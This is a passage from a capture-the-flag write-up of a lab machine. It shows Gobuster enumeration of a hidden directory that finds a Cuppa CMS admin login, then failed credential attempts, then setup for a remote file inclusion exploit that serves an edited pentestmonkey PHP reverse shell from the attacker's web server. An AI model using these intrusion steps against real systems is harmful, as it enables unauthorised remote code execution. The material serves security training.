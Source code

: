 ![Dyson Hidden Directory](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/5508bea7-001c-4569-9e17-2a798db2dee1)


- Now that we have uncovered this hidden directory, we can do some more enumeration. The first thing that comes to mind is using [Gobuster](https://github.com/OJ/gobuster) on the new hidden directory to see if there are other places we can go. It stands to reason that there is some sort of administrational or login page since the recovered files reference a content management system. We can use the following syntax, and will get the following output:

```
gobuster dir -u http://target-ip/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```python
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://target-ip/45kra24zxs28v3yd/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/09/20 16:20:32 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2023/09/20 16:20:50 Finished
===============================================================
```

- Our hunch about an administrator page was correct. When we go to this page, we can see the following:

![Hidden Directory CMS Admin Page](https://github.com/morganbritt19/CTF-Writeups/assets/60797871/9b314134-1c99-4578-a5b9-75bd61bf3a86)


- We are greeted with another login page. I did some research and found that the Cuppa CMS default credentials are admin/admin, but that didn't work. Next, I tried to use the recovered credentials for Miles that allows us to authenticate to SMB, but that didn't work either. 
- After a little googling, we can find that there is an exploit on [Exploit-DB](https://www.exploit-db.com/) that allows for remote file inclusion. We could potentially use this to gain access to the device hosting the CMS. It can be found [here](https://www.exploit-db.com/exploits/25971). 
- Basically, this Remote File Inclusion (RFI) vulnerability can allow us to reference a file hosted on our own webserver and run it, which can run arbitrary commands. To start, we should pull down the [pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell) page. Once we edit it and add the IP address and port of our attacking machine appropriately, we can save it and host it on a local web server using the following syntax:
```python
python3 -m http.server 8887
```
***Note: The port doesn't matter. I only used 8887 because I already set the netcat port to 8888 in the reverse shell script and I didn't want to cause conflicts.***

